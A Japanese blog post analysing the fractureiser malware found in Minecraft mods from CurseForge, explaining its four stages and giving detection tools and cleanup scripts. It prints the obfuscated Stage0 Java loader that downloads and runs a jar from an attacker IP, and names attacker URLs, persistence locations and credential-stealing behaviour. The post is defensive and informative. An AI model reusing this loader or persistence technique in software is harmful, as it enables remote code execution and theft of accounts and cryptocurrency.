 ```yaml
---
title: "今話題のfractureiserとは"
date: 2023-06-08
draft: false
slug: forge_fractureiser
image: forge.png
categories:
    - Minecraft
readingtime: false
links:
  - title: 最新情報(海外の有志による情報まとめ)
    description: 最新の情報を得たい方向け
    website: https://github.com/fractureiser-investigation/fractureiser
    image: https://github.githubassets.com/images/modules/logos_page/GitHub-Mark.png

  - title: 参考にさせていただいたサイト
    description: 一番最初に日本向けに情報提供された方です。一部参考にさせていただきました。
    website: https://zenn.dev/toliner/articles/19d1b06da5db81
    image: https://pbs.twimg.com/profile_images/1192775453498494977/pb8Shc8G_400x400.jpg
---
```

## はじめに
みなさん、お久しぶりです。クリスタと申します。最近話題になっているマルウェア、「fractureiser」についてわかっている範囲でまとめようと思います。

## fractureiserとは
fractureiserは、MinecraftのMOD/プラグインをターゲットにしたマルウェアで、2023/06/01に海外のプレイヤーによって発見されました。
そのファイルが、Curse ForgeからダウンロードしたMODから検出されたため、Curse Forgeが直ちに声明を発表しました。
現在は、海外の有志によってこのファイルをソースコードに直す作業がされており、そのソースコードからどのような挙動をするのかが一部解明されています。また、アップロードの日付を確認したところ古くて2023年4月から既に存在していたものとみられています。
このマルウェアは複数のステージで構成されており、各ステージごとに実行される処理が異なるという特徴があります。

## このマルウェアによる影響
<span style="color: red; ">**WindowsあるいはLinuxで使用しているほぼすべてのMOD・プラグインに影響が出る恐れがあります。また、Minecraftのクライアント本体、サーバーにも影響が出る恐れが追加で発表されました。**</span>直近3週間～1ヵ月の間にCurse Forgeから何らかのMODをダウンロードした場合はマルウェアに感染している可能性が大きいため、後述する検出ツールの使用をおすすめします。  
現時点でMac上での影響は確認されていません。また、Stage3によって感染してマルウェアが実行されてしまった場合は<span style="color: red; ">Minecraftとは関連のないすべてのjarファイルに感染を起こす可能性があります。</span>  

・MOD/プラグイン開発者向け  
このマルウェアにより、Mavenリポジトリへの影響も考えられます。

現時点でウイルスがアップロードされているサーバーが停止しているため新たな感染はほぼ不可能ですが既存のjarファイルによる活動が続いている可能性があります。

{{< notice note >}}
**ここから先は主にデベロッパー(MOD・プラグイン開発者あるいはそれに関連した知識を持つ方)向けの内容になります。検知方法に移動する場合は下のリンクをクリックしてください。** 

[→検知方法に移動](#検知方法)
{{< /notice >}}

## マルウェアの活動内容
このマルウェアはStage0からStage3に分かれ、最初はStage0から、最後にマルウェア本体のStage3で構成されています。  
ここから先の内容は一つずつ展開して読むことができます。

<details>
<summary>Stage0</summary>

### Stage0
Stage0は、Stage3によって感染したjarファイルにあります。Stage3によって感染したjarファイルの中に次のようなコードが記載されています。
また、このコードは難読化されているため一部処理が数字の羅列になっています。
```java
static void _1685f49242dd46ef9c553d8af1a4e0bb() {
  Class.forName(new String(new byte[] {
      // "Utility"
    85, 116, 105, 108, 105, 116, 121
  }), true, (ClassLoader) Class.forName(new String(new byte[] {
      // "java.net.URLClassLoader"
    106, 97, 118, 97, 46, 110, 101, 116, 46, 85, 82, 76, 67, 108, 97, 115, 115, 76, 111, 97, 100, 101, 114
  })).getConstructor(URL[].class).newInstance(new URL[] {
    new URL(new String(new byte[] {
        // "http"
      104, 116, 116, 112
    }), new String(new byte[] {
        // "85.217.144.130"
      56, 53, 46, 50, 49, 55, 46, 49, 52, 52, 46, 49, 51, 48
    }), 8080, new String(new byte[] {
        // "/dl"
        47, 100, 108
        }))
  })).getMethod(new String(new byte[] {
      // "run"
    114, 117, 110
  }), String.class).invoke((Object) null, "-114.-18.38.108.-100");
}
```
Stage0の具体的な処理は次の通りです。
1. `http://[85.217.144.130:8080]/dl`に接続して、`dl.jar`というファイルをダウンロード
2. 1でダウンロードしたファイルを上記コードの`Utility`に渡して実行

現在、URL先のページは閉鎖されていますが、URLの差し替えがあったケースもあるようです。
</details>

<details>
<summary>Stage1</summary>

### Stage1
Stage0でダウンロードされた`dl.jar`の処理部分です。  
Stage0にある`Utility.run`がシステムプロパティかどうか確認し、存在する場合は処理を停止し、存在しない場合は空の文字列を設定して続行。
これにより、マルウェアの二重起動がされないようにしている模様です。    
また、`https://files-8ie.pages.dev/ip`にアクセスし、攻撃者が操作するサーバーのIPアドレスを取得します。その後、Stage2のファイルをダウンロードします。(Windowsは`libWebGL64.jar`、Linux`lib.jar`)  
ダウンロードしたファイルをシステム起動時に実行できるようWindowsは、`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`にレジストリのキーを作成し、Linuxは`systemd`で`systemd-utility.service`というサービスを作成して起動します。  
これらを要約すると、
1. マルウェアが二重起動しないよう確認する
2. `https://files-8ie.pages.dev/ip`から最新のダウンロードURLを取得し、そこからファイルをダウンロード。ダウンロードしたファイルをシステム起動時に実行されるようにする。

となります。
</details>

<details>
<summary>Stage2</summary>

### Stage2
Stage2は、Allatori obfuscatorというJavaのソースコードを難読化するツールで難読化されていますが、大体の処理は判明しているようです。
1. ポート9655を開け、JVM(Java仮想マシン)が閉じたら該当のポートを閉じる
2. `.ref`が存在する場合、ファイルから識別子を読み取る
3. `https://[files-8ie.pages.dev]:8083/ip`に接続し、Stage3の`client.jar`をダウンロードする
4. `dev.neko.nekoclient.Client#start(InetAddress, refFileBytes)` を呼び出す

現在判明しているSHA:
|  SHA1  |  Detail  |
| :----: | :----: |
|`52d08736543a240b0cbbbf2da03691ae525bb119`| - |
|`6ec85c8112c25abe4a71998eb32480d266408863`|D3SL以前のアップロード|
</details>

<details>
<summary>Stage3</summary>

### Stage3
Stage3は、ほかのStageに比べて難読処理かつ複雑な処理になっています。ただし、難読処理がされる前のソースが見つかり、それによってどのような挙動をするのかがほぼわかっています。現段階で確認されている挙動は、
- クリップボードの内容を読み取る
- Microsoft アカウント、Discordなどの認証情報を盗む
- クリップボード内の暗号通貨アドレスを、攻撃者が所有していると思われる代替アドレスに置き換え
- **すべてのjarファイルに対し、Stage0の処理を挿入しようとする**

となっています。これによりマルウェア拡大のリスクが大きくなっています。
</details>

## 検知方法
現時点で、Stage0、Stage1をセキュリティソフトが検知できるように定義ファイルが作成されました。最新版に更新することで見つけることができますが、確実に見つける場合はCurse Forgeの親会社のOverWolfがリリースした検知ツールを使用することでStage3までを検知できます。ただし、確実に検知できるかは不明です。
- [Curse Forge 検知ツールのダウンロード](https://github.com/overwolf/detection-tool/releases)

リンク先から使っているOSごとのファイルをダウンロードしてください。Windowsの場合は、`detection-tool-x-x-x-win.exe`を選択します。

また、スクリプトファイルをダウンロードあるいはコピーして実行することもできます。
<details>
<summary>Windows版(PowerShell)</summary>
次のスクリプトをコピーして`detect.ps1`として保存するか、ダウンロードすることができます。

```ps1
$appData = "$HOME\AppData"
$edgePath = "$appData\Local\Microsoft Edge"

$badPaths = @(
        "$edgePath\.ref",
        "$edgePath\client.jar"
        "$edgePath\lib.dll",
        "$edgePath\libWebGL64.jar",
        "$edgePath\run.bat",
        "$appData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\run.bat",
        "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run\t"
)

$res = $false

ForEach ($Path in $badPaths) {
        if (Test-Path -Path $Path) {
                Write-Host "bad file found! removing $Path..."
                Remove-Item -Force $Path
                $res = $true
        }
}

if (!($res)) {
                Write-Host "nothing found! :)"
}

Read-Host -Prompt "press any button to exit"
```

[ファイルをダウンロード](https://prismlauncher.org/img/news/cf-compromised/check_cf.ps1)
</details>

<details>
<summary>Linux版(shell)</summary>
次のスクリプトをコピーして`detect.ps1`として保存するか、ダウンロードすることができます。

```sh
service_file="systemd-utility"
data_dir="$HOME/.config/.data"
bad_paths=(
        "$data_dir/.ref"
        "$data_dir/client.jar"
        "$data_dir/lib.jar"
        "$HOME/.config/systemd/user/$service_file"
        "/etc/systemd/system/$service_file"
)

res="true"
for path in "${bad_paths[@]}"; do
        if [ -f "$path" ]; then
                echo "bad file found! removing $path..."
                rm --force "$path"
                res="false"
        fi
done

if [ "$res" == "true" ]; then
        echo "nothing found :)"
fi
```

[ファイルをダウンロード](https://prismlauncher.org/img/news/cf-compromised/check_cf.sh)
</details>

Stage3に感染してしまった場合、ほぼすべてのjarファイルが悪意あるコードに書き換えられる恐れがあります。ただし、現在攻撃者のサーバーがほぼすべてダウンしているため、新たに感染する可能性は低いものの新しくサーバーができる可能性も考えられます。

## 対策
Minecraft JE 1.20がリリースされMODを使って楽しみたいという方も少なくないでしょう。ただ、まだStage3の他の機能などわからない部分が多いため、MODサーバー、MODを使ってシングルプレイをやめることをおススメします。特に最近ダウンロードしたMOD・プラグインには注意です。

## 最後に
このブログは2023/06/08現在の情報です。最新情報を知りたい場合はこのページの最後から移動することができますので参照してください。
